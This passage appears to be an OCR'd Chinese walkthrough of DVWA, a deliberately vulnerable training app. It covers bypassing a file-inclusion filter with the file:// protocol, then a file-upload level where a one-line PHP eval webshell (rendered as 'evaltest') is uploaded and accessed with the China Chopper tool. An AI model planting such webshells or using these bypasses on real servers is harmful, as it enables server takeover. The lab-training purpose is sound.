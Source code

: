 添加了如下过滤:  

```php  
// Input validation  
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {  
    // This isn't the page we want!  
    echo "ERROR: File not found!";  
    exit;  
}  
```

fnmatch() 函数根据指定的模式来匹配文件名或字符串。  

对包含的文件名进行了限制，必须为 file* 或者 include.php ，否则会提示Error：File not found。  

可以利用 file 协议进行绕过。  

```php  
<http://127.0.0.1/vulnerabilities/fi/?page=file:///D:\\phpStudy\\PHPTutorial\\WWW\\DVWA1\\vulnerabilities\\fi\\test.txt>  
```

## 文件上传  

文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞。  

### low  

没有对文件做任何限制，可以直接上传webshell  

```php  
<?php  
@evaltest($_POST['zxl']);  
?>  
```

将上述内容写入1.php文件进行上传  

![](/images/dvwa/13.png)  


使用中国菜刀连接  
